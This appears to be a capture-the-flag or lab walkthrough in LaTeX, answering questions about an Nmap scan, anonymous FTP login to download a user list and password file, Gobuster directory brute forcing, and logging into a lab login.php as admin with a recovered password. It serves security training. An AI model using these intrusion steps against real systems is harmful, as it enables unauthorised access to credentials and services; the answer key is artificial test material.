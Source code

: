 \documentclass[a4paper,10pt]{article}
\begin{document}
What Nmap scanning switch employs the use of default scripts during a scan? \texttt{-sC}.
\begin{txt}
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
\end{txt}

What service version is found to be running on port 21? \texttt{vsftpd 3.0.3}.

What FTP code is returned to us for the "Anonymous FTP login allowed" message? \texttt{230}.

After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously? \texttt{anonymous}.

After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server? \texttt{get}.

What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server? \texttt{admin}.

What version of Apache HTTP Server is running on the target host? \texttt{Apache httpd 2.4.41}.

What switch can we use with Gobuster to specify we are looking for specific filetypes? \texttt{-x}.
\begin{bash}
ftp 10.129.222.85
ftp> ls
ftp> get allowed.userlist
ftp> get allowed.userlist.passwd
ftp> exit
gobuster dir -x php -w directory-list-2.3-medium.txt -u 10.129.222.85
\end{bash}

Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service? \texttt{login.php}.

Go to \texttt{10.129.222.85/login.php} and put \texttt{username=admin} and \texttt{password=rKXM59ESxesUFHAd}.
\end{document}
